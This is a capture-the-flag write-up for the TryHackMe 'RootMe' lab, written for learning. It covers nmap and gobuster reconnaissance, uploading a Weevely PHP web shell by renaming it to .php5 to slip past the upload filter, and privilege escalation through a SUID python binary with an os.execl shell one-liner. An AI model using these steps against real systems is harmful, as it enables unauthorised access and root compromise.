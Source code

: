 # CTF-Write-up

## Try Hack Me - RootMe

##### URL: https://tryhackme.com/room/rrootme

##### Created by _ReddyyZ_

![logo](https://user-images.githubusercontent.com/20625004/109557761-31670f00-7ae1-11eb-8e3f-0d225c8b0f8c.PNG)

##### You should deploy the machine first.
#

##### Run nmap against the target machine.

```nmap <target IP>```

![nmap](https://user-images.githubusercontent.com/20625004/109558163-ba7e4600-7ae1-11eb-9b88-719a011b0674.PNG)

We have the first answers to the relevant questions.

Next we fire up gobuster in order to seach for paths in the web application that will help us to map the app.

```gobuster dir -u <target IP> -w <wordlist location>```

![gobuster](https://user-images.githubusercontent.com/20625004/109559704-acc9c000-7ae3-11eb-8d7f-a6f6d609972d.PNG)

We access the panel path and we observe that we can upload files.

![panel](https://user-images.githubusercontent.com/20625004/109559603-8b68d400-7ae3-11eb-838e-27ba5fb39bb4.PNG)

Getting a shell.

Lets try uploading a file containing a reverse shell script written in php. 

I used the Weevely tool, found at  https://github.com/epinna/weevely3. 

```weevely generate <pass> <path>/file1.php5```

Note that when we first try to upload this file as .php, we get an error message saying that we cannot upload this type of file.
After some trial and errors by changing the extension “.php” to “.php5”. we can upload the file.

![upload](https://user-images.githubusercontent.com/20625004/109560562-b6075c80-7ae4-11eb-8e48-8c937299d3b3.PNG)

The we connect with Weevely to the target system.

```weevely <Target Path> <pass that we used in the previous step>```

![shell](https://user-images.githubusercontent.com/20625004/109560957-2dd58700-7ae5-11eb-80b4-7b9450463b45.PNG)

Now that we have access we search for the first flag user.txt

```find -name \user.txt```

```THM{********************}```

![1flag](https://user-images.githubusercontent.com/20625004/109561227-8b69d380-7ae5-11eb-9709-9f5bd3475e0e.PNG)
 
 And we have our first flag.
 
 Now for the second one.
 
 Digging around showed that we need to find a different way to get the root flag. We search for all files with the suid permission.
 
 ```find . perm /4000```
 
 It will provide us with a list of files with the suid set. The one that we can abuse is ```/usr/bin/python```.
 
 Check also https://gtfobins.github.io/gtfobins/python/#shell for more information.
 
 run ```/usr/bin/python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’```
 
 and now ```cat /root/root.txt``` 
 
 ```THM{********************}```
 
 And now you have all the flags.

